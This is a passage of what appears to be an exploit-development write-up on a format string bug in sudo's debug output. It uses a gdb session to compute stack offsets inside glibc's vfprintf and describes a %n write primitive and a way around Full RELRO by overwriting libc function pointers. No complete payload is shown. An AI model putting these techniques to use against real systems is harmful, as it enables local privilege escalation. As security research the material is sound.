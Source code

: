 #9  0x400094a0 in vfprintf (__ap=0xbff42b78  &lt;incomplete sequence 340&gt;, __fmt=&lt;optimized out&gt;, __stream=&lt;optimized out&gt;) at /usr/include/bits/stdio2.h:128
#10 sudo_debug (level=0x9, fmt=0x4000dff3 "settings: %s=%s") at ./sudo.c:1202
#11 0x400082cd in parse_args (argc=0x1, argv=0x4023b730, nargc=0xbff42d20, nargv=0xbff42d24, settingsp=0xbff42d28, env_addp=0xbff42d2c) at ./parse_args.c:413
#12 0x40002890 in main (argc=0x2, argv=0xbff42df4, envp=0xbff42e00) at ./sudo.c:203

gdb$ list vfprintf.c:1688
1683	    /* Fill in the types of all the arguments.  */
1684	    for (cnt = 0; cnt &lt; nspecs; ++cnt)
1685	      {
1686		/* If the width is determined by an argument this is an int.  */
1687		if (specs[cnt].width_arg != -1)
1688		  args_type[specs[cnt].width_arg] = PA_INT;
1689
1690		/* If the precision is determined by an argument this is an int.  */
1691		if (specs[cnt].prec_arg != -1)
1692		  args_type[specs[cnt].prec_arg] = PA_INT;
gdb$ break vfprintf.c:1688
Breakpoint 1 at 0x400d1c5b: file vfprintf.c, line 1688.

gdb$ run
process 2157 is executing new program: /usr/bin/sudo
   0x400d1c53 &lt;_IO_vfprintf_internal+4531&gt;:	mov    eax,DWORD PTR [edi+0x20]
   0x400d1c56 &lt;_IO_vfprintf_internal+4534&gt;:	cmp    eax,0xffffffff
   0x400d1c59 &lt;_IO_vfprintf_internal+4537&gt;:	je     0x400d1c68 &lt;_IO_vfprintf_internal+4552&gt;
=&gt; 0x400d1c5b &lt;_IO_vfprintf_internal+4539&gt;:	mov    edx,DWORD PTR [ebp-0x484]
   0x400d1c61 &lt;_IO_vfprintf_internal+4545&gt;:	mov    DWORD PTR [edx+eax*4],0x0
   0x400d1c68 &lt;_IO_vfprintf_internal+4552&gt;:	mov    eax,DWORD PTR [edi+0x1c]
   0x400d1c6b &lt;_IO_vfprintf_internal+4555&gt;:	cmp    eax,0xffffffff
   0x400d1c6e &lt;_IO_vfprintf_internal+4558&gt;:	je     0x400d1c7d &lt;_IO_vfprintf_internal+4573&gt;

Breakpoint 1, _IO_vfprintf_internal (s=0xbfe48748, format=&lt;optimized out&gt;, ap=0xbfe48e28  &lt;incomplete sequence 340&gt;) at vfprintf.c:1688
1688		  args_type[specs[cnt].width_arg] = PA_INT;

gdb$ p &s-&gt;_flags2
$1 = (_IO_FILE **) 0xbf845310
gdb$ p/d (char*)&s-&gt;_flags2 - *(int)($ebp-0x484)
$2 = 11396

gdb$ p &nargs
$3 = (size_t *) 0xbf844e74
gdb$ p/d (char*)&nargs - *(int)($ebp-0x484)
$4 = 1924
</pre>

*s->_flags2* and *nargs* is on stack with fixed relative offsets to current stack pointer, so we can adjust offsets according to relative stack addresses to fulfill #2 & #3. Let do this again and calculate correct values when we have final format string for the exploit.

### Bypassing Full RELRO

We can now use &#8220;%n&#8221; primitive to write anywhere with any value, but where to write to? sudo binary is compiled with Full RELRO, this means we cannot write to GOT entry or dynamic->.fini to redirect the execution as they are read-only. The idea here is simple: we try to overwrite function pointer in libc or ld-linux and hope it will be called later in program to trigger redirection. This works smoothly with sudo case.


 [1]: http://en.wikipedia.org/wiki/Position-independent_code#Position-independent_executables